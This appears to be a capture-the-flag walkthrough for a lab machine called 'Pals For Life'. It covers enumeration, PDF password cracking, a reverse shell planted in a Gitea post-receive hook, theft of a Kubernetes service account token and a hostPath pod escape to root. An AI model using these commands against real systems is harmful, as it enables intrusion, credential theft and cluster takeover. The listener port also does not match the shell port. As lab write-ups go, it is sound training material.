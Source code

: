 # Pals For Life

![image](https://user-images.githubusercontent.com/86648102/135341140-8a711e05-557d-44c8-a326-d243c4a6c260.png)

---

## Task 1 Deploy the VM


Please allow 5 minutes for the machine to fully boot up.

> Answer: No answer needed


## Task 2 Compromise the machine



**Answer the questions below**

### Flag 1

`export ip=10.10.219.14`

`ping $ip`

- Get machine IP and check the connectivity:

![image](https://user-images.githubusercontent.com/86648102/134903424-aebdd489-9e4f-4471-b155-6eeade692bc6.png)
- Scanning and Enumeration:
`sudo nmap -sC -sV -v -oN PalsForLifenmapscan.txt $ip -p- -Pn`

Open ports:
- 22 ssh
- 6443 ssl/sun-sr-https? Kubernetes
- 10250 Golang net/http server
- 30180 nginx
- 31111 Gitea (Git with a cup of tea) is a painless self-hosted Git service written in Go
- 31112 OpenSSH

---
- For now, we leave the SSH ports alone. The most interesting, in my oppinion is the Gitea 31111 port.

![image](https://user-images.githubusercontent.com/86648102/134904400-5e3ce142-048b-43c0-a60f-170e9f45d32a.png)

- Let's explore the website. Under **Explore** > **Users** we manage to find the following:
![image](https://user-images.githubusercontent.com/86648102/134904776-cd8e3428-448e-430e-8c58-e69f489facbb.png)

We have a user: leeroy.

---

- I tried scanning the other ports with Gobuster, to see if other pages are around there. The 30180 returned something interesting!

`sudo gobuster dir -u http://$ip:30180 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt | tee palsforlifegobuster.txt`

![image](https://user-images.githubusercontent.com/86648102/134906394-ffd3def6-6fee-48b8-a87f-9e332c3d506a.png)

http://machineip:30180/team 

![image](https://user-images.githubusercontent.com/86648102/134906568-0b0dbb54-8df7-4aaf-8e81-770fda5571bf.png)

Someone seems to like World Of Warcraft a lot :)

Nothing special on the page, except the video. However, when inspecting the page:

![image](https://user-images.githubusercontent.com/86648102/134906809-ee1d0239-2d66-439e-bae9-10185e572e1c.png)


Someone forgot an "uninteresting" file around. Let's put the code in a text file and see what we can do.

![image](https://user-images.githubusercontent.com/86648102/134907151-805d81e9-74a1-4bde-98b0-c2631dfeaf8e.png)

What if we decode it with base64?

`cat contentfromsite | base64 --decode > uninteresting_file.pdf`

![image](https://user-images.githubusercontent.com/86648102/134907464-9d8b6ac1-0d8f-45ea-8f61-563b952a27c1.png)


Apparently it's password protected. We will use **John The Ripper** for this one.

`/usr/share/john/pdf2john.pl uninteresting_file.pdf > pdfhash.txt`

The format to be used will be shown with this command:

`john --list=formats | grep -i pdf`

And to crack the password of the file:

`john --format=PDF --wordlist=/usr/share/wordlists/rockyou.txt pdfhash.txt`

`john --show pdfhash.txt`

**It worked!**

![image](https://user-images.githubusercontent.com/86648102/134908157-99295585-44ac-477e-9df5-f645867be2bb.png)

Apply the password to the PDF file. Apparently, within there's a text that might look like a password...back to the Gitea, maybe **leeroy** with this password will work.

![image](https://user-images.githubusercontent.com/86648102/134908865-171c7bc2-5dc8-4f62-adb3-2076da70b2e0.png)

We are in!

- Found a "secret" field under the Webhooks ( Repository > Settings > Webhooks )
Right click to inspect the field and..you get the first flag.

![image](https://user-images.githubusercontent.com/86648102/134909821-2a88084b-8fac-45a5-a87b-e0c457dbe74c.png)

---
### Flag 2
---

Githooks abuse.

![image](https://user-images.githubusercontent.com/86648102/134910069-93f8b126-1a15-4f17-9a03-aaf134cb341f.png)

Edit the "post-receive" hook and add the following content:

`#!/bin/bash
bash -i >& /dev/tcp/10.8.174.98/4444 0>&1`

![image](https://user-images.githubusercontent.com/86648102/134910323-c2859f53-3897-449b-ab14-f31e75317abb.png)


Also, open a netcat listener on port 4567.

`sudo nc -nvlp 4567`

![image](https://user-images.githubusercontent.com/86648102/134913265-87d883c4-11b5-4db8-acfe-f309bba16147.png)

We need to do some sort of action, for the hook to activate the reverse shell. Creating a new file, will do just fine:

![image](https://user-images.githubusercontent.com/86648102/134913438-3e4cd6b8-a7ac-4ae8-a3de-1f2ddd0b46c2.png)

We got the shell.

![image](https://user-images.githubusercontent.com/86648102/134913596-3b2ebc47-d1c3-44c8-8b37-f0395568bc6a.png)

By searching for flag files, we get the 2nd flag:

`find / -type f -iname flag2* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134913989-f240b007-1c98-419f-823e-e2ecfca0c505.png)


---
### Flag 3
---

As the hint says "kubectl", this one is about Kubernetes (Port 6443)

- Service Account Token

> By default, the containers in the Kubernetes cluster will hold service account token within their file system. If an attacker could find that token, he/she can use it to move laterally or depending the privilege of the service account, one can escalate its privilege to further compromise the cluster environment

`cat /var/run/secrets/kubernetes.io/serviceaccount/token`

> Output the token to a text file for later usage.

- Usage of it:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 auth can-i --list`

Apparently, we can do anything with it.

![image](https://user-images.githubusercontent.com/86648102/134915608-1fc9f376-8b15-4615-a423-4d2c2007f73c.png)

As, we have the permissions, let's check the secret resources:

`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n kube-system get secret flag3 -o json | jq -r '.data | map_values(@base64d)'`


![image](https://user-images.githubusercontent.com/86648102/134916020-e9f9230e-c70d-4c47-8fa8-65013b5d6ec0.png)


---
### Flag 4
---


We will create a new pod and abuse this.
Create a **host.yaml**

```apiVersion: v1
kind: Pod
metadata:
  name: host
spec:
  containers:
  - image: docker.io/library/nginx@sha256:6d75c99af15565a301e48297fa2d121e15d80ad526f8369c526324f0f7ccb750
    name: host
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    volumeMounts:
    - mountPath: /host
      name: host
  volumes:
  - name: host
    hostPath:
      path: /
      type: Directory```

And then run the following command:
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default apply -f host.yaml`
  
`kubectl --token "$(cat token.txt)" --insecure-skip-tls-verify --server=https://$ip:6443 -n default exec -it host bash`

And with this, we are in as root:

`find / -type f -iname *root.txt* 2>/dev/null`

![image](https://user-images.githubusercontent.com/86648102/134922788-74a8e64e-266a-469a-9054-0f22f2dc7b03.png)

Last flag is here.







